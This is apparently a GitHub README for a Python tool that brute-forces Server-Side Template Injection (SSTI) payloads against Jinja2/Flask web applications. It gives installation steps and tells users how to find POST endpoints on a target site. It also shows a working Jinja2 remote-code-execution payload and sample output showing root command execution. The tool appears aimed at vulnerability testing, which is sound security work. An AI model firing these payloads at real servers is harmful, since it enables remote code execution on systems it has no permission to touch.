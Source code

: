 # 🍹 Ice-Ice-Tea-Ay!

**Ice-Ice-Tea-Ay** is a command-line tool written in Python to perform payload-based brute-force checks for **Server-Side Template Injection (SSTI)** vulnerabilities on Jinja2/Flask-based web applications.

---

## How it Works?
It works by injecting multiple crafted payloads and analyzing server responses to detect signs of SSTI, number evaluation, or even Remote Code Execution (RCE).

---
## Requirements
- pycurl
- requests

---

## Features

- Checks for **SSTI via numerical evaluation** (e.g., `{{64*64}}`)
- Detects **Remote Code Execution (RCE)** payloads (e.g., `{{ config.__class__.__init__.__globals__['os'].popen('id').read() }}`)
- Multiple payload types: Jinja2, Freemarker, Velocity, Flask, etc.
- Supports custom POST body injection with a placeholder (`&x`)
- Uses `pycurl` for fast and raw HTTP requests

---

## Installation

```bash
git clone https://github.com/yourusername/ice-ice-tea-ay.git
cd ice-ice-tea-ay
pip install pycurl requests
```

---
## How to use
First you need to find an input in targeted website. Then open Developer Tools, go to Network tab, and try to fill with something then submit it. Check for any endpoint that uses "POST" method inside "Header" tab. Go to the "Payload" tab (on the left side of "Header" tab), click "View Source", copy the payload and use the endpoint in the script.

This is an example of use:
```bash
> python3 ice-ice-tea-ay.py

Ice-Ice-Tea-Ay!
A Brute-Force Tool to check SSTI vulnerability on Jinja2/Flask-based web servers.

Please put the URL target here: http://localhost:5000/login
Insert a header body (place '&x' inside the body): username=admin&password=&x
1. Number eval check 
2. Remote Code Execution (RCE) check 
3. Check all possible code 
Choose a number: 3
```
If the tools success find the payload, the output will look like this:
```bash
Found One!
Payload: {{config.__class__.__init__.__globals__['os'].popen('id').read()}}
Response:

                <!doctype html>
                <h1 style="font-size:100px;" align="center">uid=0(root) gid=0(root) groups=0(root)     
</h1>
```
---
